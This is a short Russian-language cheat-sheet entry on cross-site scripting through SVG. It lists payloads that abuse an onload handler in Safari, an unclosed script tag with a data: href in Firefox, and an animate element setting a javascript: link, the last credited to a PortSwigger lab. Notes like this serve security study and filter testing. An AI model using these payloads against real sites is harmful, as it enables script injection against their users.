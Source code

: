 # Через SVG

ист: Bo0oM posts\
SVG - формат графики, который представлен в виде XML файла. Поэтому в нем уже делали всякие атаки, типа XXE. С помощью него выполняются XSS атаки при открытии изображения в браузере. Но еще, он странно ведет себя как тег в html страницах.

Совсем недавно, Safari выполнял событие onload в любом элементе, которое находится в теге svg.

```
<svg><hello onload=alert(1337)>
```

А Firefox умеет выполнять тег , даже если он не закрытый.

```
<svg><script href=data:,alert(1) />
```

На самом деле, при построении DOM-дерева он автоматически закрывает SVG, а для того, чтобы это был корректный XML - все теги внутри него (а еще, ты можешь заметить href, вместо src). Но это можно использовать для обхода некоторых видов защит.

## SVG+animation

из лабы PortSwigger

```markup
<svg><a>
        <animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text>
    </a>
```
